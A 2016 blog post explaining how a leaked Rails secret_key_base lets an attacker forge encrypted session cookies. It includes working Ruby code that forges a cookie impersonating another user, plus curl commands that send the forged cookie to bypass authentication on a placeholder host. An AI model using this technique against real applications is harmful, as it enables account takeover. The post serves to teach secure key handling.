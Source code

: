 ```yaml
---
layout: post
title: "Security On Rails: Hacking Sessions With Insecure Secret Key Base"
date: 2016-04-24 20:00
comments: true
categories: [Rails, Ruby on Rails, Security]
---
```


<p>I was recently asked what is <code>secret key base</code> used for in Rails applications and why not secure value of it (or even worse - the public one!) creates a security issue. That was a really good question, I remember how it was a serious threat years ago, especially before introducing <code>secrets.yml</code> in Rails 4.1 - at that time by default <code>secret_token</code> initializer was generated and the secret key was directly stored there. The result was that in many open source projects secret key was publicly available creating a great <strong>security risk</strong>. Let's take a look how exposed secret key base could be exploited.</p>

<!--more-->

<h2>Anatomy of possible attack</h2>

<p>Imagine that <code>current_user</code> lookup in some application is performed like this:</p>

``` ruby
def current_user
  @current_user ||= User.find(session[:user_id]) if session[:user_id].present?
end
```

<p>Using <code>user_id</code> for storing id of the logged in user seems like an obvious choice. If I knew the <code>secret key base</code>, I could try encrypting the following hash:</p>

``` ruby
malicious_hash = {user_id: 10, session_id: "123abc"}
```

<p>and send carefully crafted cookie pretending that I'm logged in as the user with id 10! The question is: how would I do it? Ok, maybe I have a <code>secret key base</code>, but what exactly should be done with it? What are the necessary steps to generate such a cookie that will be successfully decrypted later by Rails application?</p>

<p>I was browsing through Rails source code and here's what I've come up with:</p>


``` ruby
def generate_encrypted_cookie(data_hash, secret_key_base)
  # inspired by https://github.com/rails/rails/blob/v4.2.6/actionpack/test/dispatch/cookies_test.rb#L595 and https://github.com/rails/rails/blob/v4.2.6/actionpack/lib/action_dispatch/middleware/cookies.rb#L527
  salt = "encrypted cookie" # default value from Rails.application.config.action_dispatch.encrypted_cookie_salt
  signed_salt = "signed encrypted cookie" # default value from Rails.application.config.action_dispatch.encrypted_signed_cookie_salt
  key_generator = ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000) # based on https://github.com/rails/rails/blob/v4.2.6/railties/lib/rails/application.rb#L179

  secret = key_generator.generate_key(salt)
  sign_secret = key_generator.generate_key(signed_salt)

  encryptor = ActiveSupport::MessageEncryptor.new(secret, sign_secret, serializer: JSON)
  encryptor.encrypt_and_sign(data_hash)
end
```

<p>This is basically how Rails handles encrypting the session data. The last thing we are missing is <code>session store key</code>, which is not really a secret value, you can get one simply by using <code>curl</code>:</p>

```
curl -I http://hack-me.dev
```

<p>And one of the headers will be in the following format:</p>

```
Set-Cookie: _HackMe_session=asj7dli45a43f8rjm67djst; path=/; secure; HttpOnly
```

<p><code>_HackMe_session</code> is our missing puzzle. Let's try creating encrypted cookie based on our <code>malicious_hash</code> and exposed <code>secret_key_base</code>:</p>

``` irb
generate_encrypted_cookie(malicious_hash, secret_key_base)
=> "dU9WQzF5RzVXdGNOcks1NGlMd3pTcTZINVdvYVNtampxZndUR2E2MmpZeTZ4MjFrWnYwKzJ3T1ladVdla250ci0tY1oxQkdnWUcrUWprZTZsMnZTbGdoUT09--b6dfdafc2456fb174239deb428fdee80a0cfe8f3"
```

<p>Assuming that there is some page requiring authentication which redirects to login page if user is not logged in, there are 2 possible scenarios: either user is authenticated and 200 HTTP code is returned or user is redirected with 302 status. To pretend that we are logged in we could perform the following request:</p>

```
curl -I http://hack-me.dev/page-requiring-authentication --cookie "_HackMe_session=dU9WQzF5RzVXdGNOcks1NGlMd3pTcTZINVdvYVNtampxZndUR2E2MmpZeTZ4MjFrWnYwKzJ3T1ladVdla250ci0tY1oxQkdnWUcrUWprZTZsMnZTbGdoUT09--b6dfdafc2456fb174239deb428fdee80a0cfe8f3"
```

<p>As a result you should see <code>HTTP/1.1 200 OK</code>, which means you've successfully bypassed authentication :).</p>


<h2>Wrapping up</h2>

<p>As you now know, having secure and securely stored <code>secret key base</code> is an essential thing for the security of the app. Rails applications are now much more secure by default than it used to be and seems that accidentally exposing <code>secret key base</code> is not likely to happen. Nevertheless, it is still a very important thing to be aware of.</p>
